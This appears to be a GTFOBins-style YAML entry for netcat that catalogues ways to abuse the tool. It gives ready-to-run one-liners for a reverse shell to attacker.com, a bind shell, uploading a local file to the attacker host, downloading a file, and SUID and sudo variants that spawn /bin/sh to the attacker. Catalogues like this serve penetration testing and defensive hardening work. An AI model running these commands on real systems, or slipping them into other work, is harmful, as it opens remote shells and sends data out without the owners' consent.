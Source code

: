 ```yaml
---
functions:
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nc -e /bin/sh $RHOST $RPORT
  bind-shell-interactive:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        nc -l -p $LPORT -e /bin/sh
  upload:
    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  download:
    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        LPORT=12345
        LFILE=file_to_save
        nc -l -p $LPORT > "$LFILE"
  suid-limited:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./nc -e /bin/sh $RHOST $RPORT
  sudo-enabled:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo nc -e /bin/sh $RHOST $RPORT
---
```

